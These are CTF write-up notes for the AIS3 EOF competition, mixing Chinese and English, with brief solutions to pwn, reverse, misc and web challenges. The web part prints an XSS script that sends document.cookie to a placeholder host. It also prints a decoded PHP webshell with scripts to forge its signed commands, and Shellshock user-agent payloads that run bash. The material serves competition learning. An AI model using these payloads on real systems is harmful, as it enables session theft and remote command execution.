 # AIS3 EOF note


### Questions

#### Pwn
- [writeme](#writeme)
- [Bingo](#bingo)
- [MagicHeap2](#magicheap2)
#### Misc
- [Python2Easy](#Python2Easy)
#### Reverse
- [simple](#simple)
- [MOSburger](#mosbuger)
- [singlehell](#singlehell)
#### Web
- [xssme](#xssme)
- [webshell](#webshell)
- [command-executor](#command-executor)



---

### Pwn

#### writeme (康賴)
- leak ```puts@got``` and overwrite with ```one_gadget```


#### Bingo (康賴)
- using ```rand()``` withou seed
- 183,86,177,115,193,135,186,92,49,21,162,27,90,59,163,126
- 當```read_input```讀滿字元時不會補`\0`字元，可以leak stack資訊
- 先寫```read syscall```在stack上並且執行
- 在寫```execve syscall```

#### magicheap2 (Billy, 康賴) 
- shrink the chunk
- fastbin currupt at got
- leak and modify got

---

### Misc
#### Python2Easy (toosyou)
- leak pyc magic number
- 偽造 pyc
    - 前面 8 byte 需要照實複製 secret.pyc
    - 第二題直接開 shell
- **Done!**

---
### Reverse
#### simple
- 去系統設定環境變數 name = rockman
- 手動開啟 notepad
- 手動用 x64dbg 打開程式
    - 手動進入 ```(void*) XDDDD```
    - 在程式讀到 $name 後手動跳過 debug 檢查
    - 跑完在 notepad 看結果
- Done !

#### MOSburger
- find ```strcmp``` symbol
    - Enter ```money$```
- Open ```C://Users/*/AppData/local/temp/MOSburger.txt```
- Decode with Morse code, get flag!

#### singlehell
- [upx](https://github.com/upx/upx/releases/tag/v3.94) unpack
- run gdb script
    - modify self hp
    - modify attack damage
- see the flag at register




#### xssme(toosyou, 康賴)
- mail content can make ```XSS``` 
- <svg/onload='```script```'>
- Use ```UTF-8``` encode critical characters
- Done!
    - `admin_cookie = pbmmrhlsj7s8v23itionobr4q5`

```
// orgin payload script
function post_to_url(path, params, method) {
    method = method || "post"; // Set method to post by default, if not specified.

    // The rest of this code assumes you are not using a library.
    // It can be made less wordy if you use one.
    var form = document.createElement("form");
    form.setAttribute("method", method);
    form.setAttribute("action", path);

    for(var key in params) {
        var hiddenField = document.createElement("input");
        hiddenField.setAttribute("type", "hidden");
        hiddenField.setAttribute("name", key);
        hiddenField.setAttribute("value", params[key]);

        form.appendChild(hiddenField);
    }

    document.body.appendChild(form);    // Not entirely sure if this is necessary
    form.submit();
}

post_to_url('http://your.domain:8080', {'q':document.cookie});
```

#### webshell (billy)
- 網頁的source code的註解是把一串加密過的字串還原成後面的php檔案
- 變數查ascii表就知道是什麼function

##### 解出來的東西
```
function run() 
{ 
    if(isset($_GET['cmd']) && isset($_GET['sig'])) 
    { 
        $cmd = hash('SHA512', $_SERVER['REMOTE_ADDR']) ^ (string)$_GET['cmd']; 
        $key = $_SERVER['HTTP_USER_AGENT'] . sha1($_SERVER['HTTP_HOST']); 
        $sig = hash_hmac('SHA512', $cmd, $key); 
        if($sig === (string)$_GET['sig']) 
        { 
            header('Content-Type: text/plain');
            return !!system($cmd); 
        }
    } 
    return false; 
} 
function fuck() 
{ 
    print(str_repeat("\n", 4096));
    readfile($_SERVER['SCRIPT_FILENAME']); 
} 
run() ?: fuck();
```
- 然後寫個php去解出如果我要傳某個command需要的cmd和sig

get cmd:
```
<?php
if(isset($_GET['cmd'])){
	$cmd = hash('SHA512', $_SERVER['REMOTE_ADDR']) ^ (string)$_GET['cmd'];
	echo $_GET['cmd'];
	echo "<br> ".urlencode($cmd);
}
?>
```

get sig:
```
<?php
function run(){
	if(isset($_GET['cmd'])){
		$cmd = hash('SHA512', $_SERVER['REMOTE_ADDR']) ^ (string)$_GET['cmd'];
		$key = $_SERVER['HTTP_USER_AGENT'].sha1('webshell.eof-ctf.ais3.ntu.st');
		$sig = hash_hmac('SHA512', $cmd, $key);
		echo $sig;
		#echo "<br>cmd:".$cmd;
	}
	else{
		echo "<p>Input: ?cmd=...</p>";
	}
}
run();
?>
```

#### command-executer
- man那裏可以直接man檔案，由此得到一切的php檔案
- 不過如果man跟"/flag"有關的都會被擋
- 後來發現可以利用http header的user-agent執行shell command
- 用chrome的plugin去改http request header，改成：
```
() { : ;}; /bin/bash -c "cd /; cat flag-reader.c"
```
- 拿到source code以後，發現它要我們輸入一個一模一樣的random string才會印檔案給我們。
- 後來想到可以先把檔案寫到/tmp，之後去讀那個檔案就拿到flag了。
```
() { : ;}; /bin/bash -c "cd /; flag-reader flag > /tmp/file < /tmp/file"
```
ps: 一開始/tmp有給read權限所以看的到別人的檔案XD
